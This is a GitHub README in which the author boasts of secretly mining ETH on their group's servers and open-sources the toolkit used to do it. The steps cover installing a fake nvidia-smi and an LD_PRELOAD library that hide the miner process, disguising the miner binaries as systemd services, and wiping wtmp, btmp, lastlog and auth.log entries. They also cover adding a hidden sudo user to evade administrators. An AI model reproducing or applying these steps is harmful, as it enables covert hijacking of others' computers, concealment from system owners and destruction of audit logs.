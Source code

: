 # AWESOME WORK !!!
Since ETH has changed from PoW to PoS and can no longer be mined by GPUs, I open source this code I used to hide my ETH miner in our groups servers. I believe this code can reflect my craftsman spirit, as I constantly upgraded the code to prevent administrator's detection during mining and won finally. In addition to these codes, I even made a disguised [nvtop](https://github.com/Syllo/nvtop) (a htop-like tool for GPU) to hide the miner process and GPU usage.

## Structure
* exec: executed file.
    * nvidia-smi: excludes `systemd-diagnosis` in nvidia-smi panel.
    * systemd-firewall: is an adaptive system resource allocator determines which GPU the slave miners work on.
    * systemd-update: is the same to the `systemd-firewall` but more merciful that only works at midnight.
    * systemd-diagnosis: is the pool slave miner(Phoenix miner main file).
    * libGNU.co: hides specified processes for ps, top ,and htop.

* source: corresponding source code of the executed file in `./exec`.

## Installation

run the `Makefile` by `sudo make`. If you want to be blamed, run it without `sudo`. 

## Prerequiste
### environmental setting
make sure you have:
* gcc, which is preinstalled in your system.
* pyinstaller, installed by `pip install pyinstaller`.

### nvidia-smi
1. please make sure the variable `skip` in `source/nvidia-smi.py` is the same to the **slave miner**'s file name.
1. rename original `nvidia-smi` by `nl-toolkit` in `/usr/bin`.
1. move the *degraded* `nvidia-smi` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx nvidia-smi`.

### systemd-firewall
1. move `systemd-firewall` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx systemd-firewall`.

### systemd-update
1. same to the `systemd-firewall`.

### libGNU.co
1. move `libGNU.co` to `/usr/lib`.
1. add `/usr/lib/libGNU.so` to `/etc/ld.so.preload`; or add `export LD_PRELOAD=/usr/lib/libGNU.so` to `/etc/profile` (remember to execute `source /etc/profile` to make it effective).

**Risk:** add these files to system environment is easy to detect just by `cat /etc/ld.so.preload` or `echo $LD_PRELOAD`.

## Usage
**Very important:** run `sudo -s` first!
### Slash the miner
1. `nohup systemd-firewall 2>&1 > /dev/null &`.
1. check mining status by `nl-toolkit`.

### Check degraded files
1. `nvidia-smi`.
1. `ps aux | grep 'f2pool\|systemd-firewall\|systemd-diagnosis\|nl-toolkit'`.
1. `top -u root` or `htop -u root`.

### Clean login log
1. revise following files by 
```bash
utmpdump [logfile] > tmp_output.txt
utmpdump -r tmp_output.txt > [logfile]
```
* `last`: `/var/log/wtmp`.
* `lastb`: `/var/log/btmp`.

clean `lastlog` by `> /var/log/lastlog` if you are `root` user, or by `vi /var/log/lastlog` for otherwise.

1. delete your login log in `/var/log/auth.log` (for Ubuntu).
1. delete your login log in `/var/log/secure.log` (for CentOS).

## Tips
 * Add a new user by `useradd [your name] -G sudo -d /usr/bin -s /bin/bash -l -M`. `-l` can avoid you be added to `last` and `lastb`, but does not work for `lastlog`. `-M` will not create your home directory.
 * edit `/etc/passwd` to get more privileges for your account.
